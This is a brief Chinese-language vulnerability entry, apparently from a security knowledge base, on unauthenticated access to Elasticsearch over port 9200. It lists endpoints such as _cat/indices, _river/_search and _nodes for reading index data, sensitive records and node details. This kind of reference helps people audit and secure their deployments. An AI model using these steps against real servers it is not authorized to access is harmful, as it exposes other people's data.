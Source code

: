 # Elasticsearch 未授权访问

## 漏洞描述

Elasticsearch是用Java开发的企业级搜索引擎，默认端口9200，存在未授权访问漏洞时，可被非法操作数据

## 漏洞影响

```
Elasticsearch
```

## 漏洞复现

访问目标URL : http://xxx.xxx.xxx.xxx:9200/_node

```plain
http://localhost:9200/_cat/indices
http://localhost:9200/_river/_search //查看数据库敏感信息
http://localhost:9200/_nodes         //查看节点数据
http://localhost:9200/_plugin/head/  //web管理界面(head插件)
```
